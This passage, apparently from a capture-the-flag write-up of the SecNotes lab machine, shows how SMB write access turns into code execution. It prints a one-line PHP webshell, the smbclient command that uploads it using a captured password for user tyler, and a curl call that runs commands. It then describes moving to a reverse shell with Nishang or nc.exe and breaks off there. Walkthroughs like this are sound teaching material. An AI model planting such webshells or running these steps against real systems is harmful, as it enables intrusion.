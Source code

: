 This obviously isn’t the port 80 site, but it does match what I saw on the port 8808 site earlier. I’ll test that hypothesis and find it is that site:

```

root@kali# echo test > 0xdf.txt

```

```

smb: \> put 0xdf.txt
putting file 0xdf.txt as \0xdf.txt (1.2 kb/s) (average 0.6 kb/s)

```

```

root@kali# curl http://10.10.10.97:8808/0xdf.txt
test

```

## Shell as tyler

### Webshell

With access to write files over SMB and have them served back to me with php, I can drop a webshell. Since the SecNotes site was running on php, that seems like a good place to start. I like to start with a very basic webshell:

```

root@kali# cat /opt/shells/php/cmd.php 
<?php system($_REQUEST['cmd']); ?>

root@kali# smbclient -U 'tyler%92g!mA8BGjOirkL%OG*&' //10.10.10.97/new-site -c 'put /opt/shells/php/cmd.php 0xdf.php'
putting file /opt/shells/php/cmd.php as \0xdf.php (0.5 kb/s) (average 0.5 kb/s)

root@kali# curl http://10.10.10.97:8808/0xdf.php?cmd=whoami
secnotes\tyler

```

Success. I now have code execution.

### Interactive Shell

There’s multiple ways to go from Webshell to interactive shell on a windows host. Typically, on Windows my favorite is to use `powershell iex()` on a `webclient.downloadstring` object to load something like Nishang’s Invoke-PowerShellTcp.ps1. But since I already have unfettered write access to the host, this seems like as good a case as any to try something different and upload `nc.exe`.

First find a copy of `nc` and put it to disk:
